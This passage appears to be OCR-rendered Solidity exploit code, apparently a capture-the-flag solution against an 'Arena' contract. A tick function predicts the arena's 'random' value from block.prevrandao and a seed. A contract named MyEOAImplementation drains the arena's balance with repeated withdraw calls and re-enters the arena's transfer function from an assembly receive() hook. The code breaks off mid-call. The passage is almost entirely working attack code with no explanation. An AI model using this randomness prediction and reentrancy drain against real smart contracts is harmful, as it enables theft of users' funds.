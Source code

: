 ```solidity
    function tick(
        address,
        uint256,
        uint256,
        Arena.Pig[] memory fromPigs,
        Arena.Pig[] memory toPigs
    ) external returns (uint256 fromWhich, uint256 toWhich, uint256 r) {
        fromWhich = 0;
        toWhich = 0;
        uint256 maxAttack = 0;
        for (uint256 i = 0; i < fromPigs.length; i++) {
            if (fromPigs[i].health > 0 && fromPigs[i].attack > maxAttack) {
                maxAttack = fromPigs[i].attack;
                fromWhich = i;
            }
        }
        maxAttack = 0;
        for (uint256 i = 0; i < toPigs.length; i++) {
            if (toPigs[i].health > 0 && toPigs[i].attack > maxAttack) {
                maxAttack = toPigs[i].attack;
                toWhich = i;
            }
        }
        uint256 seed = Randomness(Arena(msg.sender).randomness()).random();
        r =
            uint256(
                keccak256(
                    abi.encodePacked(
                        uint256(block.prevrandao),
                        address(msg.sender),
                        seed
                    )
                )
            ) %
            100; // next value pre-calculated
    }
}

contract MyEOAImplementation {
    function gogogo(address arena) external {
        Arena(arena).transfer(address(0), 1); // to warm up the storage slot following https://github.com/ethereum/EIPs/blob/master/EIPS/eip-2929.md
        Arena(arena).withdraw(Arena(arena).balanceOf(address(this)));
        Arena(arena).withdraw(address(arena).balance);
    }

    receive() external payable {
        assembly {
            // » chisel  
            // ➜ keccak256("transfer(address,uint256)") // selector calculation
            // Type: bytes32
            // └ Data: 0xa9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b
            // keepin' only 4bytes: 0xa9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b -> 0xa9059cbb00000000000000000000000000000000000000000000000000000000
            mstore(
                0x00,
                0xa9059cbb00000000000000000000000000000000000000000000000000000000
            ) 
            mstore(0x24, 1)
            pop(call(
                gas(),
                0xb4f257A619B2cc621326d51682a88d00bd5eBB07, // arena
                0,
```